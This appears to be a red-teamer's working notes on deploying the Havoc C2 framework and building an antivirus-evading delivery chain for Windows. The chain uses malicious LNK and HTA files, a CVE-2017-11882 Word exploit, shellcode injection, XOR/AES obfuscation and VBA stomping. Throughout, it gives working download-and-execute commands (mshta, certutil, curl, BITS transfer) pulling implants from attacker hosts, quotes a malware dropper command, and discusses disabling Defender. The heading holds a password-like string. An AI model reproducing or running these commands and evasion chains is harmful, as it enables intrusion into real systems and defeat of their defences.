



Building havoc on an ubuntu system - OG$2Up8rx#k7

```
sudo apt install build-essential
sudo add-apt-repository ppa:deadsnakes/ppa
sudo apt update
sudo apt install python3.10 python3.10-dev
```

You can put your teamserver in a VPS whie your client can connect to the teamserver which can be local.

go ver 1.18 is required or above

teamserver installed and ready to go

to run teamserver use in team server directory - `./teamserver server --profile profiles/havoc.yaotl`

the host is the host ip
port is the defualt havoc port - 40056
user would be havoc user default - Neo
password - password1234

able to get a connect back. But unable ot evade antivirus.

next things

windows smartscreen is integrated with edge and also is invoked once before execution.
Service dll is flagged both times.

1. custom payload
Tried using havoc with darkarmour it runs it is caught by windows defender
)

and then using darkarmour evasion was successfull
https://github.com/bats3c/darkarmour - can we add AES to darkarmour


git clone https://github.com/assume-breach/Home-Grown-Red-Team.git

we can also use harriot

then created an iso file using packMyPayload
https://github.com/mgeeky/PackMyPayload


but it only executes from a drive E: privilege. more modules for privilege ecalation must be looked into.

2. how to use multiple vps's

3. metatwin
https://github.com/threatexpress/metatwin

and SigThief - this is  already done by Harriot.

4. dll persistance, creating a service - not done

5. create a shellcode for all this and then integrate it with darkarmour - integrated with Harriot

If you’re doing this in a real world pentest, put the shellcode through Harriet as we did before, use Donut to turn it back into shellcode and then inject it for more OPSEC

6. generate hta to create something similar to linkzip exploit

https://www.ired.team/offensive-security/code-execution/t1170-mshta-code-execution

```
<html>
<head>
<script language="VBScript"> 
    Sub RunProgram
        Set objShell = CreateObject("Wscript.Shell")
        objShell.Run "calc.exe"
    End Sub
RunProgram()
</script>
</head> 
<body>
    Nothing to see here..
</body>
</html>
```

this did not work 

however creating a download and execute with mshta

`mshta.exe vbscript:Close(Execute("GetObject(""script:http://10.10.6.55:8000/legit.iso"")"))`

but this works

`mshta http://10.10.6.156:8000/test.html`




7. creating lnk file

tried doing it through powershell -
  

this detects can we put it in hta to create a shortcut?


https://www.x86matthew.com/view_post?id=embed_exe_lnk

https://github.com/knight0x07/Lnk2Vbs

This works


code for download and execute working


### detection

with cloud based protection after couple of downloads the file is getting detected, lets try for in memory exection apart from xor?


### evasion

then again xoring 7 times and creating a exes


creating lnk file.

### TODO completion 1

1. combining with harriot 
https://assume-breach.medium.com/home-grown-red-team-getting-system-on-windows-11-with-havoc-c2-cc4bb089d22


2. Check what service payload is doing : not done.

3. Sektor7 dll injection with havoc shellcode

all sektor7 techniques are put here: https://github.com/assume-breach/Home-Grown-Red-Team. This works with AES encryption and havoc shellcode.

4. LNK exploit

Able to create a malicious LNK using LnkToVbs. LNK exploit works however, when .lnk file is downloaded it doesnt execute directly. So need to package it into a zip. however while packaging to a zip we dont get download to disk permission while looking at the archive. So it is necessary to use an in memory execution module.

Let try and use DOtNetToJs to create a vbs file
`DotNetToJScript.exe ExampleAssembly.dll --lang=vbscript --ver=v4 -o demo1.vbs`

in C# we can get the outut from Harriot and then use donut to convert it into a shellcode and then again convert into a vbs script to be executed witht the .LNK

two repos that do the same job are: 
1.  https://github.com/Accenture/CLRvoyance
2.  https://github.com/TheWover/donut

not able to get connection back after CLRvoyance

> delivery mechanism of linked exploit


5. checkout how to integrate python with C

6. Kaspersky evasion


## things to try to create a lnk file :

1. creating a vb script that executes in memory

2. creating a dotnettojs C# program  which does AES encryption

3. powershell to lnk
    encoded powershell in vbscript

    https://stackoverflow.com/questions/44693317/is-it-possible-to-run-powershell-code-from-vbscript

    ```
    $string = {(Get-WindowsFeature).Where{$PSItem.Installed}}.ToString()

    $encodedcommand = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($string))

    powershell.exe -EncodedCommand $encodedcommand
    ```


4. exe to lnk

## Converting a havoc bin to C# shellcode

found conversion into a C shellcode

https://gist.github.com/superkojiman/11164279


conversion into a C# shellcode


The converted shellcode  is not working in shellcode runner

https://github.com/TheWover/donut/blob/master/docs/2019-08-21-Python_Extension.md

study lnk exploit


https://www.malwarebytes.com/blog/threat-intelligence/2021/04/a-deep-dive-into-saint-bot-downloader

```
&& C:\Windows\System32\cmd.exe /c poweRshELL.eXE -w 1 $env:SEE_MASK_NOZONECHECKS = 1;
 ImPoRT-modULe bItsTRAnsFer; STArt-bITsTRANSFER -Source "('http://68468438438[.]xyz/soft/win230321.exe')" -Destination $ENV:TEMP\WindowsUpdate.exe ;
 .('cd') ${eNv:TEMP};
 ./WindowsUpdate.exe!%SystemRoot%\System32\SHELL32.dll
 ```

 Once run, the main sample drops another executable in the %TEMP% directory:

"C:\Users\admin\AppData\Local\Temp\InstallUtil.exe"

which then downloads two executables named: def.exe, and putty.exe. It saves them in %TEMP% , and tries to execute them with elevated privileges.

If run, the first sample (def.exe) deploys a batch script disabling Windows Defender. The second sample (named putty.exe) is the main malicious component.

script to disable defender


for deobfuscating strings : https://github.com/mandiant/flare-floss

 more :

 can we disable any defender scipt?
 
### Trying 11882 delivery mechanism

was not able to work with unamer's implementation

embedi rtf works on windows 2010 but no poc

trying from https://www.cnblogs.com/Hi-blog/p/7878054.html 

able to generate calc from doc here starnight's implementation.

```
CreateObject(“Wscript.Shell”).Run “calc.exe”
```
`sudo msfvenom -p windows/x64/exec CMD=calc.exe EXIT_FUNC=THREAD -f hta-psh > abc` when trying to run with mshta

`mshta http://10.10.6.56:8000/abc`


using powershell to download

`powershell -command Start-BitsTransfer http://10.10.6.56:8000/demon_ht.exe demon_ht.exe;`

using certutil.exe  tp download

`"certutil.exe -urlcache -split -f http://10.10.6.56:8000/demon_ht.exe %TEMP%\\demon_ht.exe & %TEMP%\\demon_ht.exe"`

not working

`curl -s http://10.10.6.56:8000/demon_ht.exe | start demon.exe`

from lolbas mshta download and execute exploit was searched

however it was found tha tmshta doesnot work so instead we tried executing the binary itself.

Then we needed to reduce thenumber of characterused so thatit can be put in a file within 43 bytes

one thing to try: `curl <server name> -L -o a.exe`

`curl -O  http://10.10.6.156:8000/a"`

command that may work withthe exploit - https://github.com/starnightcyber/CVE-2017-11882


```
python2 Command_CVE-2017-11882.py -c "curl -O http://10.10.6.156:9/a.exe & .\a" -o test.doc 
```

However curl method did nont work even though we could get payload withing the word limit


trying mshta again :

trying from https://unit42.paloaltonetworks.com/unit42-analysis-of-cve-2017-11882-exploit-in-the-wild/


this works : `mshta http://10.10.6.156:8000/test.html`

when trying to load demon_ht through mshta it evades detection as well however there is a script error that come sup whenever we are tryin to run powershell bits transfer


## payload delivery working with certutil


## problems with mshat dropper 

objshell.run - down't seems to run always

mshta dropper does not work with


1. certutil doesnt work without using cmd as well.
2. Curl doesnt work
3. powershell normal - in memory execution
    > powershell encoding should we check?

works with mshta but not in exploit
bitstransfer is not able to find the file however when put as document in powershell

able to load the doc with payload using certutil


however even mshta command to download using certutil is flagged.

I need look for means to execute the test.html using mshta without being flagged.

using evil clippy for stomping

https://github.com/outflanknl/EvilClippy

not able to install it 

```
Hey @rtgjeg , try to install Roslynator 2022 extension, helped me.
Launch VS2022 -> Extensions -> Search for Roslynator 2022 -> install it.
```


and also 

https://lowery.tech/building-a-custom-shellcode-stager-with-process-injection-to-bypass-windows-defender/

need to check why unamers code is not working need to try to understand unamer's code.

https://github.com/unamer/CVE-2017-11882

Resources to check out : https://www.netskope.com/blog/malicious-office-documents-multiple-ways-to-deliver-payloads

trying to make a local version of team server.
Kali linux is detected as virus for some reason.

## Trying to create vba macro

https://www.docguard.io/running-shellcode-through-windows-callbacks-using-vba-macro/

1. using DOCguard

https://www.docguard.io/ - to check for IOC's on docguard

2. Using callbacks to execute shellcode

https://github.com/ChaitanyaHaritash/Callback_Shellcode_Injection

A callback is code that helps an unmanaged DLL function complete a task.

https://marcoramilli.com/2022/06/15/running-shellcode-through-windows-callbacks/

able to get clac to work through [](./popcalc.c)


even though the program doesn't execute completely.

but maybe used to execute shellcode.

also discussed here for vba code: http://ropgadget.com/posts/abusing_win_functions.html

encoding this in a vba code using trigen:

https://github.com/karttoon/trigen

can we integrate vba AES encode :

[](./vba_aes.vb)

then using evilclippy for vba stomping.

can also use .net C# functions
https://ppn.snovvcrash.rocks/red-team/maldev/code-injection

also try sharpzip runner.


# new approach using vba files


# new approach using vba files

```
Havoc.exe -> harriot.dll -> shellcode-dll-injection -> dotnettojs -> vba stomping
```


